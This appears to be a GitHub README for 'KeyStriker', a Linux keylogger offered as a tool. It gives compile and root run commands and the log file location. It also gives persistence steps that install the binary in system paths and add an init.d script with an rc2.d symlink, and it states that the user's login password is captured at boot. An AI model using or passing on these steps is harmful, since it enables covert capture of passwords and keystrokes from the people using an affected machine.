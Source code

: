 # Keyloger-KeyStriker
A linux keyloger with the possibility to launch it at startup.

Compile the source with code blocks IDE, codeblocks must be in root -> sudo codeblocks in a terminal; or from src folder and linux command line : gcc main.c keylogger.c utils.c -o KeyStriker

Then for launch the keyloger use the command : sudo ./KeyStriker

The log keys are in /var/log/KeyStriker.log

For see at any time if the keyloger is running use the command : ps -aux | grep KeyStriker, if you see a line like this :

root 6727 0.0 0.0 4380 76 ? Ss 03:26 0:00 ./KeyStriker

The keylogger is running.

For stop the keyloger use the command : sudo killall KeyStriker or click F12 for go out properly of the program.

For laucnh the programm at startup follow this steps :

- copy the KeyStriker binarie in /usr/bin and /usr/sbin with the command :  sudo cp KeyStriker /usr/bin && sudo cp KeyStriker /usr/sbin

- copy the script called daemon_launcher.sh in /etc/init.d/ with the following command : sudo cp daemon_launcher.sh /etc/init.d

- make a symbolic link with this command :  sudo ln -s /etc/init.d/daemon_launcher.sh /etc/rc2.d/S88daemon_launcher.sh

- in script folder launch the script called startup.sh

You 're done, reboot the machine and you will see in /var/log/KeyStriker.log your user password you entered for open the linux session wish mean the daemon was running at startup.Then the keylopgger run in background and keep logging all key striked.

For stop the program at startup follow this only step :

- run the script in script folder called delete_startup.sh with the command :  sudo ./delete_startup.sh

You 're done.

Thanks.
